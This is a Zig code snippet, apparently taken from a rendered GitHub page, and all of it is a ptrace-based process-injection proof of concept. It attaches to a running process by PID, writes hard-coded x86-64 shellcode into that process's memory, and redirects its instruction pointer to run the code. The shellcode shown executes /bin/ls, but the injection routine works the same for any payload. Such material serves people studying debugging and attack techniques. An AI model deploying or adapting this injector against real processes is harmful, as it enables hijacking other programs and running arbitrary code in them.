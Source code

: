 ```zig
    var iter = std.process.args();
    _ = iter.skip();
    var pid = try std.fmt.parseInt(
        std.os.pid_t,
        iter.next() orelse {
            std.log.err("No pid given", .{});
            std.os.exit(1);
        },
        10,
    );

    try std.os.ptrace(std.os.linux.PTRACE.ATTACH, pid, 0, 0);
    std.log.info("Tracing process {d}...\n", .{pid});

    var ret: usize = undefined;
    var status: u32 = undefined;
    ret = std.os.linux.wait4(pid, &status, 0, null);

    ret = std.os.linux.ptrace(std.os.linux.PTRACE.SYSCALL, pid, 0, 0, 0);
    ret = std.os.linux.wait4(pid, &status, 0, null);

    var regs: user_regs_struct = undefined;
    _ = std.os.linux.ptrace(std.os.linux.PTRACE.GETREGS, pid, 0, @intFromPtr(&regs), 0);

    const addr: usize = try get_address(pid);
    std.log.info("Found memory address {x}", .{addr});
    const shell_code = "\x48\x31\xd2\x52\x48\x89\xe6\x48\x89\xe2\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x6c\x73\x50\x48\x89\xe7\x48\x31\xc0\xb0\x3b\x0f\x05";

    var i: usize = 0;
    var j: usize = shell_code.len / 8;
    while (i < j) : (i += 1) {
        ret = std.os.linux.ptrace(
            std.os.linux.PTRACE.POKEDATA,
            pid,
            addr + i * 8,
            std.mem.readIntSlice(usize, shell_code[(i * 8) .. (i + 1) * 8], .Little),
            0,
        );
        if (std.os.errno(ret) != .SUCCESS) {
            std.log.err("Error: PTRACE_POKEDATA => {d}", .{ret});
        }
    }
    j = shell_code.len % 8;
    if (j != 0) {
        var tmp: [8]u8 = .{0} ** 8;
        @memcpy(tmp[0..j], shell_code[i * 8 ..]);
        ret = std.os.linux.ptrace(
            std.os.linux.PTRACE.POKETEXT,
            pid,
            addr + i * 8,
            std.mem.readIntSlice(usize, &tmp, .Little),
            0,
        );
        if (std.os.errno(ret) != .SUCCESS) {
            std.log.err("Error: PTRACE_POKEDATA => {d}", .{ret});
        }
    }

    regs.rip = addr;
    _ = std.os.linux.ptrace(std.os.linux.PTRACE.SETREGS, pid, 0, @intFromPtr(&regs), 0);
    std.log.info("Jump to shell code", .{});

```
